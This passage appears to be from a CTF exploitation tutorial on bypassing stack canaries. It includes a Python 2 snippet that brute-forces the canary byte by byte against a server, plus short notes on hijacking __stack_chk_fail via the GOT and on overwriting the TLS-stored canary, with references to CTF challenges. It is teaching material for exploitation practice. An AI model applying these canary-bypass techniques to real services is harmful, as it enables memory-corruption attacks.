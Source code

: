 
```python
print "[+] Brute forcing stack canary "
start = len (p)
stop = len (p) +8
while len(p) < stop:
   for i in xrange(0,256):
      res = send2server(p + chr(i))
      if res != "":
         p = p + chr(i)
         #print "\t[+] Byte found 0x%02x" % i
         break
      if i == 255:
         print "[-] Exploit failed"
         sys.exit(-1)
canary = p[stop:start-1:-1].encode("hex")
print "   [+] SSP value is 0x%s" % canary
```

### Hijack __stack_chk_fail function
The processing logic that knows that Canary fails will enter the `__stack_chk_fail`ed function. The `__stack_chk_fail`ed function is a normal delay binding function that can be hijacked by modifying the GOT table.


See ZCTF2017 Login, using the GTS table of `__stack_chk_fail` by fsb vulnerability, and then using ROP


### Override the Canary value stored in TLS


It is known that Canary is stored in TLS and will be compared using this value before the function returns. When the overflow size is large, it can overwrite the Canary and TLS stored Canary implementations stored on the stack at the same time.


See StarCTF2018 babystack






